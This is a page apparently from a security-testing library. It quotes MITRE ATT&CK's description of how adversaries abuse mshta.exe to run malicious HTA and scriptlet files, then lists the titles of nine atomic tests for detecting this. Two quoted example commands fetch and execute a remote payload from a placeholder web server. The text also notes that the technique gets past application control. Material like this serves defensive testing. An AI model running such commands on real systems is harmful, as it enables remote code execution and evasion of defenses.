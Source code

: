 # T1218.005 - Signed Binary Proxy Execution: Mshta

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/005)

<blockquote>Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017)

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)

- [Atomic Test #2 - Mshta executes VBScript to execute malicious command](#atomic-test-2---mshta-executes-vbscript-to-execute-malicious-command)

- [Atomic Test #3 - Mshta Executes Remote HTML Application (HTA)](#atomic-test-3---mshta-executes-remote-html-application-hta)

- [Atomic Test #4 - Invoke HTML Application - Jscript Engine over Local UNC Simulating Lateral Movement](#atomic-test-4---invoke-html-application---jscript-engine-over-local-unc-simulating-lateral-movement)

- [Atomic Test #5 - Invoke HTML Application - Jscript Engine Simulating Double Click](#atomic-test-5---invoke-html-application---jscript-engine-simulating-double-click)

- [Atomic Test #6 - Invoke HTML Application - Direct download from URI](#atomic-test-6---invoke-html-application---direct-download-from-uri)

- [Atomic Test #7 - Invoke HTML Application - JScript Engine with Rundll32 and Inline Protocol Handler](#atomic-test-7---invoke-html-application---jscript-engine-with-rundll32-and-inline-protocol-handler)

- [Atomic Test #8 - Invoke HTML Application - JScript Engine with Inline Protocol Handler](#atomic-test-8---invoke-html-application---jscript-engine-with-inline-protocol-handler)

- [Atomic Test #9 - Invoke HTML Application - Simulate Lateral Movement over UNC Path](#atomic-test-9---invoke-html-application---simulate-lateral-movement-over-unc-path)

